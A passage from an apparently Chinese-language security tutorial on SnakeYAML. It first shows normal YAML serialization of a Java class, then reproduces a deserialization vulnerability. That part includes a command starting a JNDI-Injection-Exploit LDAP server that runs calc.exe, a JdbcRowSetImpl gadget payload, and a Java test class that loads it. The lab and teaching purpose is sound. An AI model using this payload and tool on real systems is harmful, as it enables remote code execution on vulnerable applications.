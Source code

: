 输出结果：

```plain
!!SnakeYaml.Person {age: 18, username: mike}
```

注：这里的!! 应该类似于一个标识符，表示对应的类名  
注：**序列化过程会触发类属性对应的 get 方法**  
**反序列化**：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class SnakeYamlTest {
    public static void main(String[] args) {
        // 反序列化
        String str = "!!SnakeYaml.Person {age: 18, username: mike}";
        Yaml yaml = new Yaml();
        Person person = (Person) yaml.load(str);
        System.out.println(person);
    }
}
```

输出结果：

```plain
SnakeYaml.Person@48533e64
```

注：**反序列化过程会触发类属性对应的 set 方法**

## 3\. 漏洞复现与分析

### JdbcRowSetImpl 链

**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
使用工具开启 LDAP 服务

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

POC:

```plain
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest1 {
    public static void main(String[] args) {
        String poc = "!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
